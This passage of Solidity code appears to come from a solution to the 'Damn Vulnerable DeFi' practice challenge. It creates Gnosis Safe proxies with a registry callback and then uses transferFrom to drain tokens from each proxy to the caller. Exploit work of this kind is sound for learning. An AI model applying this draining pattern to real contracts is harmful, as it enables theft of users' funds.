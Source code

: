 ```
                ),
                address(0x0),
                address(0x0),
                0,
                address(0x0)
                );

        GnosisSafeProxy proxy =  gnosisFactory.createProxyWithCallback(
            masterCopyAddress,
            init,
            i,
            IProxyCreationCallback(registryAddress)
        );
        // console.log("The msg.sender's address:", msg.sender);
        console.log("The proxy's address:", address(proxy));
        // console.log("The this address:", address(this));
        DamnValuableToken(token).transferFrom(address(proxy), msg.sender, 10 *10**18);
        }

    }

}
```